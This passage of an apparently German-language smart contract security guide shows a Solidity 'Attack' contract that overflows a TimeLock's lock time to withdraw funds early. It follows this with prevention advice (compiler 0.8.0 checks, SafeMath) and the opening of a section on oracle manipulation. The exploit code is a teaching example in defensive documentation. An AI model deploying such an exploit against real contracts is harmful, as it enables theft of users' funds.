 ```
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

##### Wie man Integer-Unterläufe und -Überläufe verhindert

Ab Version 0.8.0 weist der Solidity-Compiler Code zurück, der zu Integer-Unterläufen und -Überläufen führt. Verträge, die mit einer niedrigeren Compiler-Version kompiliert wurden, sollten jedoch entweder Überprüfungen für Funktionen durchführen, die arithmetische Operationen beinhalten, oder eine Bibliothek (z. B. [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math)) verwenden, die auf Unterlauf/Überlauf prüft.

#### Oracle-Manipulation {#oracle-manipulation}

[Oracles](/developers/docs/oracles/) beziehen Off-Chain-Informationen und senden sie on-chain, damit Smart Contracts diese nutzen können. Mit Orakeln können Sie Smart Contracts entwerfen, die mit Off-Chain-Systemen wie z. B. Kapitalmärkten interagieren, was ihre Anwendung erheblich erweitert.

Wenn das Orakel jedoch beschädigt ist und falsche Informationen on-chain sendet, werden Smart Contracts auf der Grundlage falscher Informationen ausgeführt, was zu Problemen führen kann. Dies ist die Grundlage des „Orakelproblems“, bei dem es darum geht sicherzustellen, dass die Informationen aus einem Blockchain-Orakel korrekt, aktuell und zeitnah sind.

Ein damit zusammenhängendes Sicherheitsproblem ist die Verwendung eines On-Chain-Orakels, z. B. einer dezentralen Börse, um den Spotpreis für ein Asset zu ermitteln. Leihplattformen in der [dezentralen Finanzbranche (DeFi)](/defi/) tun dies oft, um den Wert der Beleihungsobjekte eines Nutzers zu ermitteln, anhand derer er bestimmen kann, wie viel er leihen kann.

Die DEX-Preise sind häufig korrekt, was vor allem darauf zurückzuführen ist, dass Arbitrageure die Gleichheit auf den Märkten wiederherstellen. Sie sind jedoch anfällig für Manipulationen, insbesondere wenn das On-Chain-Orakel die Preise von Assets auf der Grundlage historischer Handelsdaten berechnet (was normalerweise der Fall ist).
